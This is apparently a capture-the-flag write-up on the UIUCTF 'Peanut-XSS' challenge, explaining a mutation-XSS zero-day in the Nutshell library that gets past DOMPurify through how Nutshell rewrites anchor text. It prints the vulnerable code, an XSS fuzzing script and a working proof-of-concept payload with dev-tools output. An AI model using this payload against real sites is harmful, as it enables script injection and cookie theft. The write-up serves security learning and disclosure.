 # Peanut-XSS 

Peanut-XSS from UIUCTF included a 0day in [Nutshell](https://github.com/ncase/nutshell). Just like any other client-side challenge, the goal was to trigger an XSS and steal **document.cookie** from the admin. 

Nutshell uses the open-source libraries DOMPurify & Marked. But ofcourse, the goal was not to find a bypass in DOMPurify, rather it was something realted to how Peanut was handling the user input. 

```js
 <script
      src="https://cdn.jsdelivr.net/gh/ncase/nutshell@v1.0.06/nutshell.js"
      integrity="sha512-M2fB+hjUmLSY45qhwo1jQlOHhkxVJEGbWfHtJBV4WtKGS6KN2LsWLINTYkQZHlSqU5NUHBUw8Vl2tUJK2OwKDA=="
      crossorigin="anonymous"
      referrerpolicy="no-referrer"
 ></script>
 ```

It was also clear that this is a 0day since it was using the latest version. 

I was focusing on **DOM-Clobbering**, spent a lot of time doing so (I believe others did too) trying to find something that was being controlled from the user side, without success. 


# Finding the 0day

The code has a built-in features where it converts an **anchor** innerText to a **span** tag pointing to another built-in class **nutshell-expandable-text** using  ```let linkText = document.createElement('span') ```

 ```js
      expandables.forEach((ex)=>{
            // Style: closed Expandable
            ex.classList.add('nutshell-expandable');
            ex.setAttribute("mode", "closed");
            // Remove colon, replace with animated balls
            let linkText = document.createElement('span');
            linkText.innerHTML = ex.innerText.slice(ex.innerText.indexOf(':')+1);
            linkText.className = 'nutshell-expandable-text';
            let ballUp = document.createElement('span');
            ballUp.className = 'nutshell-ball-up';
            let ballDown = document.createElement('span');
            ballDown.className = 'nutshell-ball-down';
            ex.innerHTML = '';
            ex.appendChild(linkText);
            ex.appendChild(ballUp);
            ex.appendChild(ballDown);
 ```

It then inserts the innerText into **linkText.innerHTML**, which makes room for possible injection. One issue though: **DOMPurify**, I started playing around, fuzzing etc.. 

# Hunting for Easy Wins

While exploring this, I made a script to fuzz common XSS payloads, while testing the logic manually

 ```js
function sanitizeHTML(payload) {
  const sanitizedPayload = DOMPurify.sanitize(payload);
  return sanitizedPayload;
}

fetch('https://raw.githubusercontent.com/payloadbox/xss-payload-list/master/Intruder/xss-payload-list.txt')
  .then(response => response.text())
  .then(payloads => {
    const payloadArray = payloads.split('\n');

    payloadArray.forEach((payload, index) => {
     
      const modifiedPayload = '<a href="xx">:' + payload + '</a>';
      const sanitizedPayload = sanitizeHTML(modifiedPayload);
      setTimeout(() => {
         console.log("trying: " + payload);
        document.body.innerHTML = sanitizedPayload;
      }, 500 * index); 
    });
  })
  .catch(error => console.error('Error fetching the XSS payload list:', error));
 ```

Which came back with nothing interesting. 

# Mutation XSS 


Peanut is a case where expressions and HTML are parsed and modified (into <span>), leading to DOM modification. As a result, filtered reflected input that goes through an HTML filter has the potential to transform into mXSS. 

Since mXSS is very common when DOMPurify is present, I've [found](https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss) a very cool article that is similar to the case. 


## PoC 

```html
<a href="xss">:"&lt;img src=1 onerror=alert(1)&gt;"></a>
```

The above payload actually works, again this wasn't a bypass against DOMPurify but was an issue of how Peanut hadnled the user input. 

We can actually confirm that via dev-tools: 


```js

> DOMPurify.sanitize('<a href="xss">:"&lt;img src=1 onerror=alert(1)&gt;"></a>');
'<a href="xss">:"&lt;img src=1 onerror=alert(1)&gt;"&gt;</a>'
> const xss = document.getElementsByClassName("nutshell-expandable-text");
undefined
> xss[0]
<span class="nutshell-expandable-text">Nutshell</span>
> xss[1]
<span class="nutshell-expandable-text">"""<img src="1" onerror="alert(1)">"">"</span>
```

Crafting a **fetch**, we've got the flag! 
